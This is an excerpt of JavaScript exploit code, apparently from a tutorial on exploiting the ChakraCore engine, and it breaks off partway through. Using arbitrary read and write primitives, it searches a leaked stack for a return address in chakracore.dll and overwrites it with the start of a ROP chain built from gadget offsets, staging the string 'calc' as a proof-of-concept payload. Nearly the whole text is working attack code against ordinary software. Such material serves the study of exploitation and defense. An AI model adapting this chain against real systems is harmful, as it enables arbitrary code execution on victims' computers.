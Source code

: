 ```javascript

    // Counter variable
    let counter = 0;

    // Store our target return address
    var retAddr = new Uint32Array(0x10);
    retAddr[0] = chakraLo + 0x1768bc0;
    retAddr[1] = chakraHigh;

    // Loop until we find our target address
    while (true)
    {

        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Did we find our return address?
        if ((tempContents[0] == retAddr[0]) && (tempContents[1] == retAddr[1]))
        {
            // print update
            print("[+] Found the target return address on the stack!");

            // stackLeak+counter will now contain the stack address which contains the target return address
            // We want to use our arbitrary write primitive to overwrite this stack address with our own value
            print("[+] Target return address: 0x" + hex(stackLeak[0]+counter) + hex(stackLeak[1]));

            // Break out of the loop
            break;
        }

        // Increment the counter if we didn't find our target return address
        counter += 0x8;
    }

    // Begin ROP chain
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x3e876, chakraHigh);      // 0x18003e876: pop rax ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x636c6163, 0x00000000);            // calc
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x3e6c6, chakraHigh);      // 0x18003e6c6: pop rcx ; ret
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x1c77000, chakraHigh);    // Empty address in .data of chakracore.dll
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0xd7ff7, chakraHigh);      // 0x1800d7ff7: mov qword [rcx], rax ; ret
    counter+=0x8;

    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
    counter+=0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
```